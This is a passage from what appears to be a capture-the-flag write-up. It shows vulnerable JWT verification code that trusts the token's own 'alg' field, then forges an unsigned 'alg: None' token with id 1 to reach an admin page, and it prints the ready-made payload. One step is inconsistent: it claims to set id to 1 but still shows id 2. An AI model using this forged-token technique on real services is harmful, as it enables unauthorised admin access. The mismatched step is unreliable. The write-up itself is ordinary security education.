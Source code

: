 Considering that the challenge allows us to modify the algorithm, this exploit seemed like the perfect opportunity. 

```js
 const user = jwt.verify(sessionCookie, null, {
	algorithms: [decoded.header.alg], // NOTE: User Can Modify decoded.header.alg
});
```

With this knowledge in mind, I proceeded to log in as a test user, retrieve the JWT token stored in the cookies, and decoded it using a JWT decoding tool such as [jwt.io](https://jwt.io/).

JWT tokens consist of three parts separated by dots: the header, payload, and signature. The exploit revolves around modifying the "alg" field in the header to "None." Armed with this information, I base64-encoded the modified header.

- Base64 Decoded JWT header: `{"alg":"HS256","typ":"JWT"}`

- Change _algorithm_ to **"None"**: `{"alg":"None","typ":"JWT"}`

- [Base64 encode the changed header](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/')&input=eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0): `eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0`


To verify the exploit's success, I modified the second part of the JWT token to have an ID of 1, knowing that the admin user likely holds this ID. 

- Base64 Decoded JWT payload: `{"id":2,"iat":1679364743,"exp":1679368343}`

- Change *id* to **1**: `{"id":2,"iat":1679364743,"exp":1679368343}`

- Base64 encode the changed payload: `eyJpZCI6MiwiaWF0IjoxNjc5MzY0NzQzLCJleHAiOjE2NzkzNjgzNDN9`

Finally, I remove the signature while retaining the period separators.

End JWT Payload:

```
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MzY0NzQzLCJleHAiOjE2NzkzNjgzNDN9.
```

> Note:
> This payload listed about might not work for you since there is expiration date specified. So make sure to create your own payload or change the "exp" date.


Armed with my modified payload, I replace the original cookie (session) with the exploit payload and navigate to the `/admin` page.

Lo and behold, success! The modified JWT token allows access to the admin page, confirming the validity of the exploit. The admin user, alongside other registered users, is displayed proudly on the page.


![Successfully Gone to admin page](https://imgur.com/ByNihBn.png)


## Unleashing the Exploit: Server-Side Template Injection (SSTI)

Energized by my progress, I refocus my efforts on exploiting the application further to acquire the coveted `flag.txt`.
